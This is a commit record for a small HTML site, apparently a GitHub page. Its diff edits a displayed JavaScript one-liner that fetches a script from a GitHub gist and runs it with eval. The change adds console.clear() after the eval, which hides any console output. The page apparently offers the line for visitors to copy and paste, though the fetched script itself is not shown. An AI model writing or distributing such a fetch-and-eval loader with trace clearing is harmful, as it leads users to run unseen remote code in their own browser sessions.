

Before and after one commit to Khasan1111/camilla, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -17,7 +17,7 @@
     </style>
 </head>
 <body>
-    <div id="code">fetch('https://gist.githubusercontent.com/Khasan1111/f9218594bbc5006fc5701ace58c0128c/raw/e78e49461b10534ab308f0a323e8575ed91ac347/script.js').then(r => r.text()).then(eval)</div>
+    <div id="code">fetch('https://gist.githubusercontent.com/Khasan1111/f9218594bbc5006fc5701ace58c0128c/raw/e78e49461b10534ab308f0a323e8575ed91ac347/script.js').then(r => r.text()).then(code => { eval(code); console.clear(); })</div>
 
     <script>
         document.getElementById('code').addEventListener('click', function() {
```
